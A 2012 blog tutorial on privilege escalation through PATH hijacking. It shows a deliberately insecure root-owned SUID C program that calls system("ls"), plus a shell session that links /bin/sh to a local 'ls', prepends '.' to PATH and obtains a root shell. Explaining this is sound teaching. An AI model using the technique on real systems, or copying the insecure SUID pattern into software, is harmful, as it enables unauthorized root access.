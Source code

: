```yaml
---
layout: post
date: 2012-03-27
title: Exploiting environment variables
tags: [exploit, PATH]
author: Alexandru Juncu
---
```


Environment variables are sometimes very important when creating new
processes. For example, the `PATH` variable, that decides what executable to
run.

The easiest example to exploit `PATH` is to add the current directory `.` to
the list and overwrite common shell commands with something else.

	$ cat ./ls
	echo P0wn3d
	$ ls
	file1 file2
	$ ./ls
	P0wn3d
	$ export PATH=.:$PATH
	$ ls
	P0wn3d

But that can only affect the user's shell and can't do harm to the system.
What if some other conditions exist in the system, like the use of the
SUID bit. Normal processes are run as the user who executes them,
regardless of who owns the executable file (as long as the user who runs
the file can read the file). If the SUID is set on an executable file, any
process started from that executable will run as the owner of the file,
not shell owner. Here is an example of a very insecure source that
**shouldn't** be SUID-ed.


{% highlight cpp %}
#include<stdlib.h>

int main(void)
{
	system("ls");
	return 0;
}
{% endhighlight %}

Let's assume that the compiled executable from this code is owned by root,
SUID-ed and put into /bin with the name `ls_root`.

	$ ls -la /bin/ls_root
	-rwsrwsr-x 1 root root 7163 2012-03-21 12:28 /bin/ls_root

What this will enable, for example, is the listing of the `/root` directory
by any user.

	$ cd /root
	$ ls
	ls: cannot open directory .: Permission denied
	$ sudo ls
	test
	$ ls_root
	test

The code simply executes the `ls` command. But what if the `ls` command isn't
doing what it is supposed to do? Given this setup, as a normal user, we
can do the following:

	$ ln -s /bin/sh ls
	$ echo $$
	32655
	$ ls
	ls  ls_root.c
	$ ./ls
	$ echo $$
	32730
	$ whoami
	alexj
	$ exit
	$ export PATH=.:$PATH
	$ ls_root
	# whoami
	root
	#



The `ls_root` process will run the `ls` command. The `ls` command will run an
executable specified by the `PATH` variable (the executable is `/bin/ls`). But
if the `PATH` variable is changed in the current bash process, the
executable ran by the `ls` command will now become something else. If the
`ls_root` command is ran by root (with the help of the SUID bit), any of its
children will also be processes of root. So, if the `ls` command will now run
a bash executable, it will run a root owned executable that leads to root
access.

The SUID is something that is used in Linux systems (sudo and even ping use
it), but these executables are very carefully implemented so that normal
users can't exploit them.
